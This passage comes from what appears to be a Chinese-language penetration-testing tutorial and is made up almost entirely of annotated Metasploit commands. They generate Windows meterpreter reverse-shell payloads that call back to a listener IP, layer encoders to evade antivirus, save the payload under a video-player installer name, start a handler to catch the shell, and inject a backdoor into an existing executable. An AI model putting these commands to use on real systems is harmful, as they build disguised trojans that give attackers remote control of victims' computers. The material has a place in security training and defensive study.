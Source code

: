     ```shell
    # 使用一个编码器
    msfvenom # 工具
    	-a x86 # 指定架构
    	--platform windows # 指定平台
    	-p windows/meterpreter/reverse_tcp LHOST=192.168.18.143 LPORT=444 # 指定攻击载荷
    	-b "\x00" # 去掉坏字符坏字符会影响 payload  执行
    	-e x86/shikata_ga_nai # 指定编码器，面杀
    	-i 10 # 指定编码次数
    	-f exe # 指定输出文件格式
    	-o /ver/www/html/西瓜影音1.exe  # 文件输出位置
    	
    # 使用两个编码器
    msfvenom # 工具
    	-a x86 # 指定架构
    	--platform windows # 指定平台
    	-p windows/meterpreter/reverse_tcp LHOST=192.168.18.143 LPORT=444 # 指定攻击载荷
    	-b "\x00" # 去掉坏字符
    	-e x86/shikata_ga_nai   # 指定编码器，面杀
    	-i 20 # 指定编码次数
    	| # 连接符
    	msfvenom -a x86 --platform windows -e x86/alpha_upper -i 10 # 第二个编码器
    	-f exe # 指定输出文件格式
    	-o /ver/www/html/西瓜影音1.exe  # 文件输出位置
    ```
5.  使用 MSF 监听

    ```shell
    use exploit/multi/handler  # 设置模块
    	set payload windows/meterpreter/reverse_tcp # 设置 payload
    	set lhost 192.168.18.143  # 与生成木马的地址一样
    	run  # 执行
    		# 查看获取的权限，进行提权
    ```
6.  模拟黑客给软件加后门： 在 .exe 文件中注入后门。 注入思路： 先看主程序附加了那些小程序，在小程序上面进行添加 payload

    ```shell
    # 使用 kaill 工具给附加小程序添加 payload  
    msfvenom # 工具
    	-a x86 # 指定架构
    	--platform windows # 指定平台
    	-p windows/meterpreter/reverse_tcp LHOST=192.168.18.143 LPORT=444 # 指定攻击载荷
    	-b "\x00" # 去掉坏字符坏字符会影响 payload  执行
    	-e x86/shikata_ga_nai # 指定编码器，面杀
    	-i 10 # 指定编码次数
    	-x  1.exe  # 要植入后门的文件
    	-f exe # 指定输出文件格式
    	-o /ver/www/html/1.exe  # 文件输出位置
    ```
7.  使用 evasion 模块生成免杀木马：
